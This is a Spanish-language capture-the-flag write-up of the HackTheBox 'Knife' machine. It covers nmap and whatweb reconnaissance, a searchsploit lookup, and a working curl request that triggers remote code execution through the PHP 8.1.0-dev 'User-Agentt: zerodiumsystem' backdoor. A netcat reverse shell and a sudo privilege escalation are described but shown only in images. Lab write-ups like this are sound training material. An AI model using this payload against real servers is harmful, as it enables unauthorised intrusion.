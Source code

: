 ```yaml
---
title: "Knife - HackTheBox"
layout: single
excerpt: Esta es una máquina de dificultad fácil, para su <code>intrusión</code> me aproveché de una versión vulnerable de PHP/8.1.0-dev, añadiéndole la cabecera 'User-Agentt' seguido de 'zerodiumsystem(<comando>)' se encontró que se puede ganar 'RCE', para ello me entable una reverse Shell por netcat y gane acceso, para la escalada encontré que se podría ejecutar el binario de Knife como usuario root, busque en gtfobins y escale privilegios.
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/131350831-4f0940b7-ef0b-42fc-9c75-2e784f1cd62f.jpg"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/125662338-fd8b3b19-3a48-4fb0-b07c-86c047265082.png"
categories:
  - HackTheBox
tags:
  - knife
  - User-Agentt
  - curl
  - searchsploit
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/131885749-053f2ece-406c-4d42-8185-f3929daae7be.jpg">
</p>
 
Comencé con un escaneo de `Nmap` para detectar puertos abiertos.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# nmap -sS --min-rate=5000 -n -vvv --open -Pn 10.10.10.242 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-29 10:07 EDT
Initiating SYN Stealth Scan at 10:07
Scanning 10.10.10.242 [1000 ports]
Discovered open port 22/tcp on 10.10.10.242
Discovered open port 80/tcp on 10.10.10.242
Completed SYN Stealth Scan at 10:07, 0.41s elapsed (1000 total ports)
Nmap scan report for 10.10.10.242
Host is up, received user-set (0.11s latency).
Scanned at 2021-08-29 10:07:20 EDT for 0s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.50 seconds
           Raw packets sent: 1012 (44.528KB) | Rcvd: 1012 (40.488KB)
```

Efectúe otro escaneo para detectar la versión de cada servicio abierto encontrado.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# nmap -sC -sV -p22,80 10.10.10.242 -oN targeted                       
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-29 10:09 EDT
Nmap scan report for 10.10.10.242
Host is up (0.034s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.28 seconds
```

Vi que corría un servidor web, accedí a él y encontré lo siguiente.

![https://imgur.com/8D6YyB7.png](https://imgur.com/8D6YyB7.png)

Las secciones que habían no eran botones por lo que poco podía hacer, le hice un `whatweb` al servidor web para ver que estaba corriendo.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# whatweb http://10.10.10.242/
http://10.10.10.242/ [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

Encontré que corría `PHP`, eso me llamo la atención, envíe una petición por `GET` y al parecer `whatweb` lo reporta de la cabecera `X-Powered-By`.

![https://imgur.com/2otlnnT.png](https://imgur.com/2otlnnT.png)

Busque si había algún `exploit` de esa versión y encontré uno que te garantizaba ejecución de código arbitrario.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# searchsploit PHP 8.1.0-dev
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Concrete5 CMS < 8.3.0 - Username / Comments Enumeration                                                                     | php/webapps/44194.py
cPanel < 11.25 - Cross-Site Request Forgery (Add User PHP Script)                                                           | php/webapps/17330.html
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution                                         | php/webapps/44449.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metasploit)                                     | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC)                                            | php/webapps/44448.py
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command Execution (Metasploit)                       | php/remote/46510.rb
Drupal < 8.6.10 / < 8.5.11 - REST Module Remote Code Execution                                                              | php/webapps/46452.txt
Drupal < 8.6.9 - REST Module Remote Code Execution                                                                          | php/webapps/46459.py
FileRun < 2017.09.18 - SQL Injection                                                                                        | php/webapps/42922.py
Fozzcom Shopping < 7.94 / < 8.04 - Multiple Vulnerabilities                                                                 | php/webapps/15571.txt
FreePBX < 13.0.188 - Remote Command Execution (Metasploit)                                                                  | php/remote/40434.rb
IceWarp Mail Server < 11.1.1 - Directory Traversal                                                                          | php/webapps/44587.txt
KACE System Management Appliance (SMA) < 9.0.270 - Multiple Vulnerabilities                                                 | php/webapps/46956.txt
Kaltura < 13.2.0 - Remote Code Execution                                                                                    | php/webapps/43028.py
Kaltura Community Edition < 11.1.0-2 - Multiple Vulnerabilities                                                             | php/webapps/39563.txt
Micro Focus Secure Messaging Gateway (SMG) < 471 - Remote Code Execution (Metasploit)                                       | php/webapps/45083.rb
NPDS < 08.06 - Multiple Input Validation Vulnerabilities                                                                    | php/webapps/32689.txt
OPNsense < 19.1.1 - Cross-Site Scripting                                                                                    | php/webapps/46351.txt
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                                                                         | php/webapps/49933.py
Plesk < 9.5.4 - Remote Command Execution                                                                                    | php/remote/25986.txt
REDCap < 9.1.2 - Cross-Site Scripting                                                                                       | php/webapps/47146.txt
Responsive FileManager < 9.13.4 - Directory Traversal                                                                       | php/webapps/45271.txt
Responsive Filemanger <= 9.11.0 - Arbitrary File Disclosure                                                                 | php/webapps/41272.txt
ShoreTel Connect ONSITE < 19.49.1500.0 - Multiple Vulnerabilities                                                           | php/webapps/46666.txt
Western Digital Arkeia < 10.0.10 - Remote Code Execution (Metasploit)                                                       | php/remote/28407.rb
WordPress Plugin DZS Videogallery < 8.60 - Multiple Vulnerabilities                                                         | php/webapps/39553.txt
Zoho ManageEngine ADSelfService Plus 5.7 < 5702 build - Cross-Site Scripting                                                | php/webapps/46815.txt
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Lo transferí a mí máquina con el parámetro `-m` de `searchsploit`.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# searchsploit -m php/webapps/49933.py                        
  Exploit: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/49933
     Path: /usr/share/exploitdb/exploits/php/webapps/49933.py
File Type: HTML document, ASCII text, with CRLF line terminators

Copied to: /home/kali/HTB/Knife/49933.py
```
  
Tras ver lo que hacía por detrás encontré que envía una petición añadiendo una cabecera nueva llamada `User-Agentt` que ejecuta la siguiente sentencia `zerodiumsystem("comando");`
y ganas `RCE`.
  
![https://imgur.com/w3qsvUO.png](https://imgur.com/w3qsvUO.png)
  
Lo hice de manera manual con `curl`.

```bash
┌──(root💀kali)-[/home/kali/HTB/Knife]
└─# curl -X GET http://10.10.10.242/ -H "User-Agentt: zerodiumsystem('whoami');" 
james
<!DOCTYPE html>
<html lang="en" >

<head>

  <meta charset="UTF-8">
```

Al parecer si funciono, me ejecuto el comando que yo quería y me reporto el "output" en la primera línea del código fuente de la página, ahora solo faltaba ganar acceso al sistema, por ello me entable una `reverse Shell` por `netcat`, para ello use una de `mkfifo`.

![https://imgur.com/ipnNoz2.png](https://imgur.com/ipnNoz2.png)

Y gané acceso a la máquina.

![https://imgur.com/OABTbXS.png](https://imgur.com/OABTbXS.png)
  
<hr>
<h1 align="center"><b>ESCALADA DE PRIVILEGIOS</b></h1>

Hice un tratamiento de la `TTY` y encontré que se podía ejecutar el binario `knife` con el usuario `root`.

![https://imgur.com/gwNgZIA.png](https://imgur.com/gwNgZIA.png)

Fui a `gtfobins` y encontré que se podía escalar ejecutando el binario `knife`.

![https://imgur.com/G7sdeOP.png](https://imgur.com/G7sdeOP.png)

Lo ejecute y gane acceso a la máquina como `root` y ya pude visualizar la "flag".

![30OhG9A](https://user-images.githubusercontent.com/69093629/131256003-84afcd54-e826-4192-aabc-af581f4601cb.jpg)


